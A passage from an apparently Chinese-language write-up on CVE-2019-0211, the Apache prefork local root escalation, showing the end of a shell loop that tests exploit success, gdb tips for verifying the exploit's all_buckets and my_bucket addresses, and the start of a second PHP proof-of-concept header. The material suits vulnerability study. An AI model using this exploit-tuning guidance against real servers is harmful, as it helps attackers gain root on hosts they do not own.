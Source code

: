     apache2ctl graceful

    sleep <span class="m">1</span>

    <span class="k">if</span> <span class="o">[</span> -f <span class="s2">"/tmp/1982347"</span> <span class="o">]</span><span class="p">;</span><span class="k">then</span>
        <span class="nb">let</span> <span class="nv">SUCC</span><span class="o">+=</span><span class="m">1</span>
    <span class="k">fi</span>

    <span class="k">done</span>

    <span class="nb">echo</span> <span class="s2">"COUNT: </span><span class="nv">$COUNT</span><span class="s2">"</span>
    <span class="nb">echo</span> <span class="s2">"SUCCESS: </span><span class="nv">$SUCC</span><span class="s2">"</span>

### 总结

其他版本的还没有进行测试，但是在这里给一些建议。

1.  check all\_buckets地址

-   这个挺简单的，执行完exp以后，有输出对应的pid和all\_buckets地址，可以使用gdb
    attach上去检查下该地址是否正确：`p all_buckets`

    PS：这里要注意下，需要安装dbg包，才有all\_buckets符号
    ：`apt install apache2-dbg=2.4.29-1ubuntu4`

    如果有问题，就调试检查exp中搜索all\_buckets地址的流程

    如果没问题，就使用gdb
    attach主进程(root权限的那个进程)，然后断点下在`make_child`，然后执行`apache2ctl graceful`，执行完然后在gdb的流程跳到make\_child函数的时候，再输出一次：`p all_buckets`，和exp获取的值对比一下，如果一样就没问题了

2.  check my\_bucket地址

-   前面的流程和上面一样，重点关注在make\_child函数中的my\_bucket赋值的代码：[3](https://github.com/apache/httpd/blob/23167945c17d5764820fdefdcab69295745a15a1/server/mpm/prefork/prefork.c#L691)

    这里注意下，因为上面有一个fork，所以在gdb里还要加一句：`set follow-fork-mode child`

    `my_bucket`的值是一个指针，指向堆喷的地址，如果`my_bucket`的值没问题，exp基本就没问题了，如果不对，就调整`$bucket_index`

### poc 2

    <?php
    # CARPE (DIEM): CVE-2019-0211 Apache Root Privilege Escalation
    # Charles Fol
    # @cfreal_
    # 2019-04-08
    #
    # INFOS
    #
    # https://cfreal.github.io/carpe-diem-cve-2019-0211-apache-local-root.html
    #
    # USAGE